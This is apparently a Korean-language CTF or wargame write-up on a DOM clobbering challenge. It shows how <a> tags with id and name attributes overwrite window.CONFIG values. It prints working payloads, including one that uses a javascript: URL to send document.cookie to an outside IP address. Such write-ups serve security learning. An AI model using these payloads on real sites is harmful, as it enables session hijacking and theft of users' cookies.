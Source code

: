 `practive()`에 설정된 화이트 리스트를 기반으로 `<a>`태그와 `id`, `name` 속성을 활용

`window.CONFIG`객체의 `check`값을 설정. 이렇게 하면 `check: true`가 됨

|

|

### window.CONFIG.location

---

```html
<a id="CONFIG" name="location" href="http://20.41.120.97/">456</a>
```

`window.CONFIG.location`에는 URL 설정을 위해 `href`속성을 추가

이렇게 하면 페이지 랜더링과 동시에 `href`에 설정된 `URL`로 리다이렉션됨

|

```html
<a id="CONFIG" name="location" href=javascript:location.href="http://20.41.120.97/"+document.cookie>456</a>
```

쿠키 값을 넘겨주기 위해 `javascript`프로토콜을 활용

|

이렇게  `window.CONFIG`객체의 `check`와 `location`을 원하는대로 정의 완료

|

|

### Report URL

---

![7. Dom clobbering 7](/assets/images/writeup/web-hacking/knock-on/7_DOM_7.png)
